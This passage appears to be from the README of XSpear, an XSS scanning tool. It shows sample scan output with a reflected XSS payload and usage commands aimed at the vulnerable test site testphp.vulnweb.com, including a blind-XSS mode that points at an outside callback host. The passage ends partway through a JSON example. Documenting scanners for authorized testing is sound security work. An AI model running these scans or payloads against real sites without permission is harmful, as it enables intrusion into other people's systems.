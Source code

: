 ```
...
[ Request ]
{"accept-encoding"=>["gzip;q=1.0,deflate;q=0.6,identity;q=0.3"], "accept"=>["*/*"], "user-agent"=>["Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0"], "connection"=>["keep-alive"], "host"=>["testphp.vulnweb.com"]}
[ Response ]
{"server"=>["nginx/1.4.1"], "date"=>["Sun, 29 Dec 2019 13:54:36 GMT"], "content-type"=>["text/html"], "transfer-encoding"=>["chunked"], "connection"=>["keep-alive"], "x-powered-by"=>["PHP/5.3.10-1~lucid+2uwsgi2"]}
[H] [22:57:33] [200/OK] reflected <keygen autofocus onfocus=alert(45)>[param: cat][reflected onfocus XSS Code]
...
you see report
```
### Case by Case
**Scanning XSS**
```
$ xspear -u "http://testphp.vulnweb.com/search.php?test=query" -d "searchFor=yy"
```

**Only JSON output**
```
$ xspear -u "http://testphp.vulnweb.com/search.php?test=query" -d "searchFor=yy" -o json -v 0
```


**Set scanning thread**
```
$ xspear -u "http://testphp.vulnweb.com/search.php?test=query" -t 30
```

**Testing at selected parameters**
```
$ xspear -u "http://testphp.vulnweb.com/search.php?test=query&cat=123&ppl=1fhhahwul" -p cat,test
```

**Testing at all parameters**<br>
(This option is tested with or without reflection.)
```
$ xspear -u "http://testphp.vulnweb.com/search.php?test=query&cat=123&ppl=1fhhahwul" -a
```

**Testing blind xss(all params)**<br>
(Should be used as much as possible because Blind XSS is everywhere)<br>
```
$ xspear -u "http://testphp.vulnweb.com/search.php?test=query" -b "https://hahwul.xss.ht" -a

# Set your blind xss host. <-b options>
```

**for Pipeline**<br>
```
$ xspear -u {target} -b "your-blind-xss-host" -a -v 0 -o json

# -u : target 
# -b : testing blind xss
# -a : test all params(test to not reflected param)
# -v : verbose, not showing logs at value 1.
# -o : output optios, json!
```
result json data
```
{
    "starttime": "2019-12-25 00:02:58 +0900",
    "endtime": "2019-12-25 00:03:31 +0900",
    "issue_count": 25,
    "issue_list": [{
        "id": 0,
```